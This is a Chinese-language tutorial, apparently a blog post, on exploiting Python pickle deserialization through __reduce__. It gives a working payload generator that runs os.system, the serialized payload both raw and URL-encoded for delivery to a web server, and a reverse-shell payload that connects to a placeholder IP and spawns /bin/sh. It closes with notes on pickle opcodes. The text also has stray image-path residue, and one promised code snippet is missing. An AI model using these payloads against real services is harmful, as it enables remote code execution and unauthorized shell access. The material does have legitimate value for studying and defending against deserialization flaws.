 ```python
```
值得注意的是，pickle有load和loads2个方法，load需要的参数是文件句柄，loads所需要的参数是字符串。
pickle允许任意对象去定义一个__reduce__方法来申明怎么序列化这个对象。这个方法返回一个字符串或者元组来描述当反序列化的时候该如何重构。使用os.system执行命令的payload，保存为pickle_poc_gen.py。
```python
#!/usr/bin/env python
#coding: utf-8
__author__ = 'bit4'
import cPickle
import os
class genpoc(object):
    def __reduce__(self):
        s = """calc.exe"""  #要执行的命令
        return os.system, (s,)        #os.system("echo test >poc.txt")
e = genpoc()
poc = cPickle.dumps(e)
cPickle.loads(poc)
print urllib.quote(poc)
```
输出内容，也就是Payload：
```
cnt
system
p1
(S'echo test >poc.txt'
p2
tRp3
.
```
url编码后的payload，用于URL中传递给web服务器：
cnt%0Asystem%0Ap1%0A%28S%27echo%20test%20%3Epoc.txt%27%0Ap2%0AtRp3%0A

反弹shell:
```python
import pickle
import os
class A(object):
    def __reduce__(self):
        a = """python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("xxx.xxx.xxx.xxx",9999));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'"""
        return (os.system,(a,))    
a=A()
result = pickle.dumps(a)
pickle.loads(result)
```
### 执行任意python代码的payload
我们的目标是实现任意代码执行，所以我们要序列化的对象成了code类型，但是pickle是不能序列化code对象的。
但幸运的是，从python2.6起，包含了一个可以序列化code对象的模块–Marshal。由于python可以在函数当中再导入模块和定义函数，所以我们可以将自己要执行的代码都写到一个函数里foo()， 所以有了如下代码：
把这段代码转换成pickle后的格式，需要了解pickle的数据格式和指令。详细的转换过程可以参考：https://www.cs.uic.edu/~s/musings/pickle/
```
• c：读取新的一行作为模块名module，读取下一行作为对象名object，然后将module.object压入到堆栈中。
• (：将一个标记对象插入到堆栈中。为了实现我们的目的，该指令会与t搭配使用，以产生一个元组。
• t：从堆栈中弹出对象，直到一个“(”被弹出，并创建一个包含弹出对象（除了“(”）的元组对象，并且这些对象的顺序必须跟它们压入堆栈时的顺序一致。然后，该元组被压入到堆栈中。
• S：读取引号中的字符串直到换行符处，然后将它压入堆栈。
• R：将一个元组和一个可调用对象弹出堆栈，然后以该元组作为参数调用该可调用的对象，最后将结果压入到堆栈中。
• .：结束pickle。
```
**说人话：**
```
• c：接下来的2行内容类似于，os.system、urllib.unquote是module.object的形式。
• (：就是左括号
• t：相当于右扩号
```
